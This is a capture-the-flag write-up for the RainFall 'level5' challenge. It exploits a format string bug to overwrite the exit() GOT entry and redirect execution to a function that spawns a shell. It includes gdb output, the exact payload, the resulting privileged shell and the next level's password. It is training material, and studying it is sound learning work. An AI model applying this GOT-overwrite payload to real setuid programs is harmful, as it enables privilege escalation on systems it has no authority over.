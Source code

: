 level5
======

*	We spawn with a [level5](source/level5) executable
	```console
	level5@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
	level5@RainFall:~$ ./level5 


	level5@RainFall:~$ ./level5 
	qweqweqwe
	qweqweqwe
	```
*	We have 3 functions :
	-	`main` calling `n`
	-	`n` creates a 520 bytes variable, `fgets` on it and then `printf` it
	-	`o` calls `/bin/sh``
*	The trick here is that `o` is never called but its our way out. One way would be the change the function the pointer of `exit()` points to, to make it point towards `o`
*	There is a section inside of programs that is called the [Global Offset Table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table). It holds addresses of functions that are dynamically linked unless a program is marked full RELRO. Most programs don't include every function they use to reduce binary size. Instead, common functions are "linked" into the program so they can be saved once on disk and reused by every program. This [website](https://ctf101.org/binary-exploitation/what-is-the-got/) explains it well. It is important for us to understand this to be able to retrieve the real address pointing to `exit()`. 
*	Let's try to find it in `gdb` :
	```gdb
	(gdb) info files
		[...]
		0x08049814 - 0x08049818 is .got
		0x08049818 - 0x08049840 is .got.plt
	```
	Here we get the address were we can find the `got` and the `Procedure Linkage Table (PLT)` which is a function that allow the program to understand which name of function is linked to what.
	```gdb
	(gdb) info functions
		[...]
		0x08048334  _init
		0x08048380  printf
		0x08048380  printf@plt
		0x08048390  _exit
		0x08048390  _exit@plt
		0x080483a0  fgets
		0x080483a0  fgets@plt
		0x080483b0  system
		0x080483b0  system@plt
	```
	Here we can see they really are treated by `plt`
	```gdb
	(gdb) disas n
		[...]
		0x080484ff <+61>:    call   0x80483d0 <exit@plt>
	```
	Same thing when we look at the function, let's take a look at this address
	```gdb
	(gdb) disas 0x80483d0
	Dump of assembler code for function exit@plt:
		0x080483d0 <+0>:     jmp    *0x8049838
		0x080483d6 <+6>:     push   $0x28
		0x080483db <+11>:    jmp    0x8048370
	```
	This is how every function is treated in the `plt`
	```gdb
	(gdb) x 0x8049838
		0x8049838 <exit@got.plt>:       0x080483d6
	```
	This is a value so we have to use `x` and not `disas`. And now we have the certitude that the `jmp` was poiting to the real address of exit -> `0x8049838`
*	This was quite long but I did my best to make it short. Now let's retrieve the address of `o()`:
	```gdb
	(gdb) x o
		0x80484a4 <o>:  0x83e58955
	```
	We get this `0x80484a4`
*	There is something else to know. Here we are working with a format string attack and not a buffer overflow as we did before. The difference is that we can't really "write" address, only thing we can do is "add" byte value with `%d`, so to access that address, we will need to add as much byte as necessary AND in decimal since the flag only takes decimals.
*	Index can be find at the `4th` position
	```console
	level5@RainFall:~$ ./level5 
	%x %x %x %x %x %x %x
	200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825
	```
	We don't really need to add random char to find it when we know ascii of `%x `
*	Let's finally build the payload:
	-	little endian of `exit()` -> `\x38\x98\x04\x08`
	-	value of the address of `o()` : `0x80484a4(HEX)` -> `134513828(DEC)`
	-	index of `%4$n`
	```console
	level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5
	level5@RainFall:~$ cat /tmp/payload5 - | ./level5
	[...]
	  512
	whoami
	level6
	cat /home/user/level6/.pass
	d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
	```